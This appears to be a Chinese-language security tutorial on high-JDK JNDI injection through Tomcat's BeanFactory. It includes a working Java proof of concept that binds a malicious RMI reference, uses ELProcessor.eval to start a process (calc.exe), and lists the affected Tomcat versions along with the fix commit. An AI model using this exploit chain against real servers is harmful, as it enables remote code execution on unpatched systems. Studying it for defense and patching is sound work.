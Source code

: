 ## 高版本的JNDI利用
当jdk版本大于等于8u191时,常规的RMI和LDAP利用受到限制,在这之后还有两种方式来利用JNDI注入.
### 使用本地的Reference Factory类
jdk高版本的限制在于不能远程加载Factory类,所以我们可以不利用远程类,转向利用本地的Factory类,而本地的Facotry类一般只有从其构造方法和`getObjectInstance()`方法中继续寻找利用点.
#### Tomcat#BeanFactory
而可能利用概率较大則是Tomcat中的`BeanFactory`本地工厂类了,该利用其依赖于Tomcat环境(tomcat=7.x, tomcat8.x < 8.5.79, tomcat9.x < 9.0.63，tomcat10.x < 10.0.20).
添加依赖包
```xml
<dependency>
    <groupId>org.apache.tomcat.embed</groupId>
    <artifactId>tomcat-embed-core</artifactId>
    <version>8.5.64</version>
</dependency>
<dependency>
    <groupId>org.apache.tomcat.embed</groupId>
    <artifactId>tomcat-embed-el</artifactId>
    <version>8.5.64</version>
</dependency>

```  
在其`getObjectInstance()`方法中可以看到如果传入的obj是一个`ResourceRef`引用时,其会从中获取到包含的class name并且实例化该类.
![](img/2023-02-21-15-00-32.png)  
然后获取引用中的`forceString`属性,并进行分割来得到其`setter`方法的名称,然后从该Class中获取该名称的Method放入`forced`中.  
![](img/2023-02-21-15-04-34.png)  
在最后会通过反射来执行该setter方法.  
![](img/2023-02-21-15-06-59.png)
##### POC
可以看到其获取setter方法的逻辑只是简单的用`,`和`=`进行分割,并没有校验是否是真的setter方法,所以可以构造恶意的ref使其调用恶意方法.
```java
            Registry registry = LocateRegistry.createRegistry(1099);
            ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
            ref.add(new StringRefAddr("forceString", "x=eval"));
            ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['cmd.exe','/c','calc.exe']).start()\")"));
            ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
            registry.bind("evilFactory", referenceWrapper);
            System.out.println("evilFactory reference bound");
```
通过构成beanClass为`ELProcessor`,然后设置其setter方法为`eval()`,利用EL表达式注入RCE.  
![](img/2023-02-21-15-24-22.png)    
![](img/2023-02-21-15-23-53.png)   

利用版本：  
```
tomcat < 8.5.79
tomcat < 9.0.63
tocmat < 10.0.20
tocmat = 7.x
```  
在高版本中tomcat修复了BeanFactory中获取setter方法的方式。   
https://github.com/apache/tomcat/commit/48dd609fd193dbe8dd94fd231c45d987da6c359f    
